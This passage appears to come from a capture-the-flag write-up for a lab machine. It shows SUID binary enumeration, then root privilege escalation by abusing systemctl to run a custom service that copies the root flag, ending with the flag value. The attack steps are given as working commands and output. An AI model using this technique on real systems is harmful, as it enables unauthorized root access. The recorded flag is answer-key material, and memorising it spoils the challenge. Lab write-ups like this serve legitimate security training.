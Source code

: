 ```bash
find / -type f -perm -4000
```

```
/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
...
```

##### Root flag:

```bash
www-data@vulnuniversity:/$ cat /root/root.txt
cat: /root/root.txt: Permission denied
```

Using systemctl to create a service to run as root:

```bash
cd /tmp
touch getrootflag.sh
chmod u+x getrootflag.sh
echo "cat /root/root.txt > /tmp/key.txt" >> /tmp/getrootflag.sh
```

Systemctl service:

```
echo "[Unit]
Description=Example systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /tmp/getrootflag.sh

[Install]
WantedBy=multi-user.target" > /tmp/getrootflag.service
```

```bash
systemctl enable /tmp/getrootflag.service
systemctl start getrootflag
```

```bash
www-data@vulnuniversity:/tmp$ cat key.txt
cat key.txt
a58ff8579f0a9270368d33a9966c7fd5
```

---